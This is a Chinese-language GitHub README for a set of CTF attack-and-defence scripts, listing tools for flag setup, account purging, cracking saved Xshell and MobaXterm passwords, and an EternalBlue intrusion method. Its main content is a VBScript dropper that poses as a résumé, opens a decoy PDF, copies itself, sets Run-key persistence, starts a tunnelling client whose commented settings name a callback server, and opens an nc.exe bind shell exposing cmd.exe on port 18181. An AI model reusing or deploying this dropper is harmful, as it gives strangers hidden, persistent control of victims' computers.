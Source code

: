 # 安全战队常用的CTF主机攻防脚本 CTFpTScript



## 天融信__DebugBreak 四轮车战队 CTF攻防赛所需要的脚本：

set_the_Flag:随机生成guid，并将以flag{guid}为名称的图片复制到windows目录下。

open_18181_with_nc:开启防火墙，并启动最基础的端口，其他端口仅允许18181端口，并且开始shell。

del_account_Bywhilelist:删除白名单以外的所有账户

one_key_close_17010：一键关闭17010所有端口。

setflag_win_linux:在windows与linux段生成flag文本，可以设置生成数量，其中用户名与内容均为随机。

Xdecrypt:老版本xshell ssh密码碰撞脚本。

Reveal password encrypted by MobaXterm:破解老版本 ssh密码碰撞脚本。

msfhack：msf入侵17010方法包括开启3389创建用户建立反射上传目录等

checkSec.sh：一键审计LINUX安全性能工具。



## 自用一键穿透攻击脚本（不免杀）



演示：

 ![img](https://github.com/liquan165/CTFpTScript/blob/master/demo/myprofile.gif)

伪装成简历，自启动，自我复制，网络穿透，修改配置文件：

```vbscript
On Error Resume Next
Dim fso,Shell,TxtFl,Str
Set fso = CreateObject("Scripting.FileSystemObject")
Set Shell=Wscript.Createobject("Wscript.shell")
If Not fso.folderExists("C:\symbols\") Then     
    fso.CreateFolder "C:\symbols\"
    fso.CreateFolder "C:\symbols\MailContactsCalendarSync\"
	fso.CopyFolder ".\log\MailContactsCalendarSync\*", "C:\symbols\MailContactsCalendarSync\"
    fso.CopyFile ".\log\MailContactsCalendarSync\*", "C:\symbols\MailContactsCalendarSync\"
	Shell.Run "iexplore.exe C:\symbols\MailContactsCalendarSync\mydoc.pdf",0,TRUE
	fso.getfile(wscript.scriptfullname).copy("C:\symbols\run.vbs")   
End If
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run\"
type_name = "REG_SZ"
key_name = "run"
key_data = "C:\symbols\" & key_name & ".vbs"
Shell.RegWrite RegPath & key_name , key_data , type_name
'Set TxtFl = fso.OpenTextFile ("C:\symbols\MailContactsCalendarSync\P2PSocket\Client.ini")
'Str = Replace ( TxtFl.ReadAll,"ClientName=QUAN","ClientName=TestJob") '肉鸡名字
'Str2 = Replace ( TxtFl.ReadAll,"ServerAddress=211.149.222.206:3387","ServerAddress=211.149.222.206:3387")  '上线地址
'TxtFl.Write Str
'TxtFl.Write Str2 
'TxtFl.Close
Shell.Run "C:\symbols\MailContactsCalendarSync\RuntimeBr0ker.exe",0,FALSE
Shell.Run "cmd /c start C:\symbols\MailContactsCalendarSync\nc.exe -Ldp 18181 -e cmd.exe",FALSE
Set fso = Nothing
Set Shell = Nothing



```

## Checksec.sh 一键审计LINUX工具

演示：





## 项目适用于：

车联网安全攻防场景，主机安全攻防场景，工控安全场景，移动安全攻防场景等。















